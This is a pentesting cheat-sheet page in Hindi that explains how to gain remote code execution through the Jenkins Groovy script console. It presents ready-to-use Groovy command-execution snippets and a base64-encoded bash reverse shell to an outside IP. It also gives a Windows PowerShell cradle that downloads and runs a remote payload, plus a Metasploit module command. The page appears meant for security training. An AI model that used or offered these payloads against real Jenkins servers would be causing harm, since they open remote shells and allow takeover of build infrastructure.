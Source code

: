 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

यह जेनकिंस में एक नया प्रोजेक्ट बनाने की तुलना में कम शोर करता है

1. _path\_jenkins/script_ पर जाएं
2. टेक्स्ट बॉक्स के अंदर स्क्रिप्ट डालें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप एक कमांड का निष्पादन कर सकते हैं: `cmd.exe /c dir`

**लिनक्स** में आप कर सकते हैं: **`"ls /".execute().text`**

यदि आपको टेक्स्ट के अंदर _उद्धरण_ और _एकल उद्धरण_ का उपयोग करने की आवश्यकता है। आप _"""PAYLOAD"""_ (ट्रिपल डबल उद्धरण) का उपयोग करके पेलोड का निष्पादन कर सकते हैं।

**एक और उपयोगी ग्रोवी स्क्रिप्ट** है (स्थानापन्न \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ HTTP सर्वर तैयार कर सकते हैं और इसे डाउनलोड और निष्पादित करने के लिए Jeking का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) के साथ स्वचालित कर सकते हैं।

आप रिवर्स शेल प्राप्त करने के लिए MSF का उपयोग कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
